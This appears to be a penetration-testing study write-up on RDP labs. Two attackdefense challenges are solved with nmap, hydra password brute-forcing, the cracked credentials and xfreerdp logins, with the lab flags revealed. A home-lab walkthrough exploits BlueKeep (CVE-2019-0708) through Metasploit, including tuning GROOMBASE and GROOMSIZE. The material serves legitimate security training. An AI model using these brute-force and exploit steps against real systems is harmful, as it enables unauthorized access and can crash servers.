# 🔬RDP

## Lab 1

> 🔬 [Windows: Insecure RDP Service](https://attackdefense.com/challengedetails?cid=1957)
>
> - Target IP: `10.4.18.131`
> - **RDP** exploitation
> - Dictionaries to use:
>   - `/usr/share/metasploit-framework/data/wordlists/common_users.txt`
>   - `/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt`

### Enumeration

```bash
ping 10.4.18.131

nmap -sV 10.4.18.131
```

```bash
PORT      STATE SERVICE        VERSION
135/tcp   open  msrpc          Microsoft Windows RPC
139/tcp   open  netbios-ssn    Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds   Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3333/tcp  open  ssl/dec-notes?
49152/tcp open  msrpc          Microsoft Windows RPC
49153/tcp open  msrpc          Microsoft Windows RPC
49154/tcp open  msrpc          Microsoft Windows RPC
49155/tcp open  msrpc          Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```



- Use Metasploit [rdp_scanner](https://www.rapid7.com/db/modules/auxiliary/scanner/rdp/rdp_scanner/) module to check if port `3333` is running RDP.

```bash
msfconsole
```

```bash
use auxiliary/scanner/rdp/rdp_scanner
set RHOSTS 10.4.18.131
set RPORT 3333
run
```



> 📌 The **RDP is exposed on target port `3333`**, and not on the default port `3389`.

### RDP Brute-force

- Try `hydra` to find valid username and password

```bash
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://10.4.18.131 -s 3333
```

```bash
[3333][rdp] host: 10.4.18.131   login: sysadmin   password: samantha
[3333][rdp] host: 10.4.18.131   login: demo   password: victoria
[3333][rdp] host: 10.4.18.131   login: auditor   password: elizabeth
[3333][rdp] host: 10.4.18.131   login: administrator   password: qwertyuiop
```



- `freerdp` cannot be used in this lab
- Use **`xfreerdp`** to connect to target via RDP

```bash
xfreerdp /u:administrator /p:qwertyuiop /v:10.4.18.131:3333
```




<details>
<summary>Reveal Flag: 🚩</summary>


`port-number-3333`




</details>

------

## Lab 2 - BlueKeep (Extra)

> 🔬 **Home Lab**
>
> I have prepared a vulnerable *Windows 2008 R2 Virtual Machine* and connected it to the same network of the Kali virtual machine. On the server, I have activated `RDP` service on default port `3389`.
>
> - Host system: `Kali Linux`
> - Target system: `Windown Server 2008 R2` - IP `192.168.31.131` - `Administrator`:`Eternal17010`
> - Exploitation tool:
> - Vulnerability: [CVE-2019-0708 - BlueKeep](https://nvd.nist.gov/vuln/detail/CVE-2019-0708)
> - ❗ **Targeting Kernel space memory and apps can cause system crashes.**

- *The attacker can remotely execute arbitrary code by gaining access to a chunk of kernel memory, without authentication.*
- BlueKeep **PoC**'s (**P**roof **o**f **C**oncepts) and exploits could be **malicious** in nature, use only verified exploit code and modules.



- Target RDP activated:



### Enumeration

```bash
nmap -sV -sC 192.168.31.131
```



> - 📌 RDP Port `3389` is open

### Exploitation

```bash
msfconsole
```

```bash
search bluekeep
use 0 # Module auxiliary/scanner/rdp/cve_2019_0708_bluekeep ID
set RHOSTS 192.168.31.131
exploit
```



```bash
search bluekeep
use 1 # Module exploit/windows/rdp/cve_2019_0708_bluekeep_rce ID
set RHOSTS 192.168.31.131
show targets
set target 5
exploit
```







> ❗ **Kernel CRASH can be caused by this exploit, so pay attention on production environment** ❗

#### Adjusting the exploit

- To make the exploit work, I've used the [Pentest-Tools blog on BlueKeep](https://pentest-tools.com/blog/bluekeep-exploit-metasploit) and [Alexandre Vieira blog post](https://alexandrevvo.medium.com/testing-bluekeep-cve-2019-0708-metasploit-module-on-windows-7-ef3f28217b7b).
- On WinServer2008 target, open `regedit`
  - `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp`
  - Set `fDisableCam` reg key on `0`



#### Finding the NPP

- To make the exploit work, it needs the correct GROOMBASE value which is the start address of the [Non Paged Pool area](https://docs.microsoft.com/en-us/windows/win32/memory/memory-pools) (NPP).
- The NPP address can be extracted from a memory dump of the target machine.
- In VMWare, take a snapshot of the target virtual machine (Win Server 2008 R2).
  - Download the [vmss2core tool](https://labs.vmware.com/flings/vmss2core;)
  - From the VM (virtual machine) folder copy the `.vmem` and `.vmsn` files to the `vmss2core` tool folder
  - Run the tool to generate a `memory.dmp` file

```bash
.\vmss2core-sb-8456865.exe -W "WinSrv_2008_R2_x64-Snapshot1.vmsn" "WinSrv_2008_R2_x64-Snapshot1.vmem"
```

- Run [WinDbg](https://apps.microsoft.com/store/detail/windbg-preview/9PGJGD53TN86?hl=en-us&gl=us) and open the `memory.dmp` file
  - Run `!polfind a` to get a message
  - That is the start of address of Non Page Pool, in this case **`fffffa8018c08000`**



- Edit the exploit and set the `GROOMBASE` variable if not already set.
  - In my case it is already set as the above address, for the `2008 R2 (6.1.7601 x64 - VMWare 15.1)` target number `5`.



- Save the exploit file and run `reload_all` in the Metasploit interface.
- Set the GROOMSIZE to 50.

```bash
msfconsole
search bluekeep
use 1 # Module exploit/windows/rdp/cve_2019_0708_bluekeep_rce ID
set RHOSTS 192.168.31.131
show targets
set target 5
set GROOMSIZE 50
exploit
```

 

------

## Lab 3 (Extra)

> [Windows RDP: Dictionary Attack](https://attackdefense.com/challengedetails?cid=1954)
>
> - Target IP: `10.4.22.41`
> - **RDP** exploitation
> - Dictionaries to use:
>   - `/usr/share/metasploit-framework/data/wordlists/common_users.txt`
>   - `/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt`

```bash
nmap 10.10.4.22.41

PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
```

```bash
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://10.4.22.41 -s 3389
```



```bash
xfreerdp /u:administrator /p:bubbles /v:10.4.22.41
# default port is 3389
```

<details>
<summary>Reveal Flag: 🚩</summary>


`sysadmin-stephaie-123`




</details>

------

